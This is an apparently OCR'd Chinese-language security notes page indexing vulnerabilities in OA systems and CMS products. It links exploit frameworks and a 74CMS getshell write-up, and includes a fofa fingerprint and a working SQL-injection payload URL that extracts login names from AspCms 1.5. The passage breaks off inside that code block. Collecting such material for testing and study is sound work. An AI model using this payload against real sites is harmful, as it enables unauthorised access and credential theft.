 * **[OA](#oa)**
    * [蓝凌](#蓝凌)
    * [禅道](#禅道)
    * [泛微](#泛微)
    * [致远](#致远)
    * [通达](#通达)
    * [信呼](#信呼)
    * [用友](#用友)
    * [新点](#新点)
    * [帆软](#帆软)
    * [万户](#万户)
    * [红帆](#红帆)
    * [金和](#金和)
    * [华天](#华天)

* **[Other](#other)**

---

## 各类论坛/CMS框架

**什么是 CMS**

内容管理系统 (CMS) 是一种存储所有数据 (如文本,照片,音乐,文档等) 并在你的网站上提供的软件. 它有助于编辑,发布和修改网站的内容.

**工具包**
- [SecWiki/CMS-Hunter](https://github.com/SecWiki/CMS-Hunter) - CMS 漏洞测试用例集合
- [Q2h1Cg/CMS-Exploit-Framework](https://github.com/Q2h1Cg/CMS-Exploit-Framework) - 一款 CMS 漏洞利用框架，通过它可以很容易地获取、开发 CMS 漏洞利用插件并对目标应用进行测试。
- [Lucifer1993/AngelSword](https://github.com/Lucifer1993/AngelSword) - Python3 编写的 CMS 漏洞检测框架
- [foospidy/web-cve-tests](https://github.com/foospidy/web-cve-tests) - A simple framework for sending test payloads for known web CVEs.

### 74CMS

**骑士 CMS 6.0.48以下文件包含getshell**
- 相关文章
    - [骑士cms文件包含getshell复现](https://mp.weixin.qq.com/s/erBzIapx1bz8f1ArWwwBwQ)

---

### AEN

**相关工具**
- [0ang3el/aem-hacker](https://github.com/0ang3el/aem-hacker)

---

### aspcms

> fofa: Powered by AspCms2

**AspCms1.5 版以下注入漏洞**
- POC | Payload | exp
    ```bash
    # 爆用户名 EXP
    http://www.***.com/plug/productbuy.asp?id=2+union+select+1,2,LoginName,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37+from+AspCms_User+where+userid=1
